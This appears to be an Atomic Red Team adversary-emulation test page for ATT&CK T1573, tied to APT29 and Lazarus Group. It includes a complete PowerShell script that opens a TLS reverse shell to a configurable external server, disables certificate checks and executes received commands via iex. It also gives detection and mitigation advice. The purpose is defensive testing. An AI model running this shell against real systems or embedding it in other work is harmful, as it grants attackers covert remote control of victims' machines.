


# Atomic Red Team Tests for APT29 and Lazarus Group - T1573 Encrypted Channel

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1573)
<blockquote>
Adversaries may employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if secret keys are encoded and/or generated within malware samples/configuration files.
</blockquote>

### Attack Technique Overview
Encrypted Channel techniques involve adversaries using encryption to conceal their command and control communications. Both APT29 (Russian state-sponsored) and Lazarus Group (North Korean state-sponsored) extensively use encrypted channels to evade detection, blend with legitimate traffic, and protect their communications from interception and analysis.



## Atomic Tests

- [Atomic Test #1 - OpenSSL C2](#atomic-test-1---openssl-c2)

<br/>

## Atomic Test #1 - OpenSSL C2
This test emulates encrypted command and control channels used by sophisticated threat actors like APT29 and Lazarus Group. It establishes an SSL/TLS encrypted session while bypassing certificate validation, a technique commonly employed by these groups to evade detection.

**Supported Platforms:** Windows

**auto_generated_guid:** 21caf58e-87ad-440c-a6b8-3ac259964003

#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | IP of the external server | string | 127.0.0.1|
| server_port | The port to connect to on the external server | string | 443|

#### Attack Commands: Run with `powershell`! 
```powershell
$server_ip = "#{server_ip}"
$server_port = "#{server_port}"
$socket = New-Object Net.Sockets.TcpClient($server_ip, $server_port)
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fakedomain.example', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data | Out-String ) 2>&1;
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $sslStream.Write($sendbyte,0,$sendbyte.Length);
    $sslStream.Flush()
}
```



**Command Explanation:**
This test establishes an encrypted C2 channel using SSL/TLS with several sophisticated evasion techniques:

1. **TCP Connection**: Establishes raw TCP connection to C2 server
2. **SSL Stream Creation**: Wraps TCP stream in SSL encryption
3. **Certificate Validation Bypass**: `({$True} -as [Net.Security.RemoteCertificateValidationCallback])` - Critical evasion technique that bypasses all certificate validation, allowing connections to servers with self-signed, expired, or mismatched certificates
4. **TLS 1.2 Encryption**: Uses strong encryption protocol commonly allowed in enterprise environments
5. **Interactive Session**: Establishes full interactive command session over encrypted channel

**APT29 & Lazarus Correlation:**
Both groups extensively use encrypted C2 channels:
- **APT29**: Used encrypted channels in SolarWinds campaign for covert communications, employing similar certificate validation bypass techniques
- **Lazarus**: Employs encryption for financial attacks and destructive operations, often using TLS encryption to blend with legitimate traffic
- **Both**: Use certificate validation bypass to evade detection and connect to infrastructure

#### Dependencies: Run with `powershell`!
##### Description: PowerShell must be available and have network access
##### Check Prereq Commands:
```powershell
if ($PSVersionTable.PSVersion.Major -ge 3) { exit 0 } else { exit 1 }
```

## Correlation with APT29 & Lazarus Tradecraft

### APT29 Focus:
* **Sophisticated Encryption**: Uses advanced cryptographic techniques for C2 communications
* **Covert Operations**: Employs encrypted channels for long-term espionage activities
* **Protocol Imitation**: Blends encrypted C2 traffic with legitimate network protocols
* **SolarWinds Campaign**: Extensive use of encrypted channels for maintaining access

### Lazarus Group Focus:
* **Financial Operations**: Uses encryption for C2 in banking and cryptocurrency attacks
* **Destructive Attacks**: Employs encrypted communications in wiper malware operations
* **Rapid Communications**: Uses efficient encryption methods for quick C2 exchanges
* **Operation Dream Job**: Employed encrypted channels for maintaining access to compromised systems

### Common Tactical Objectives:
1. **Command and Control**: Maintain covert communications with compromised systems
2. **Defense Evasion**: Avoid detection by encrypting malicious network traffic
3. **Persistence**: Sustain long-term access through stealthy communications
4. **Exfiltration**: Securely transfer stolen data from victim environments

## Defender Recommendations

Based on this test, defenders should:

1. **Monitor for certificate validation anomalies** - Processes that disable certificate validation or bypass checks
2. **Implement SSL/TLS inspection** where appropriate and legally permissible
3. **Monitor for unusual SSL/TLS connections** - Especially to newly-registered or suspicious domains
4. **Establish network baselines** to detect unusual encrypted traffic patterns
5. **Use behavioral detection** for processes making encrypted connections unexpectedly

**Mitigation Strategies:**
- Implement application control to restrict unnecessary PowerShell usage
- Use network segmentation to limit unnecessary encrypted traffic
- Deploy certificate pinning for critical services
- Implement egress filtering to restrict unnecessary outbound encrypted connections

## Campaign References

1. **APT29 SolarWinds Campaign** (2020): Used encrypted channels for C2 communications throughout the compromise with certificate validation bypass
2. **APT29 Various Operations**: Consistently employs encrypted communications for covert espionage
3. **Lazarus Financial Attacks**: Uses encrypted C2 channels in banking and cryptocurrency theft operations
4. **Lazarus Destructive Attacks**: Employs encrypted communications in wiper malware campaigns

## Academic References

1. MITRE ATT&CK Technique T1573 - Encrypted Channel
2. Microsoft: "NOBELIUM targeting IT supply chain" (2021)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (Lazarus Group)
4. CrowdStrike: "APT29 Tradecraft and Techniques" (2023)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)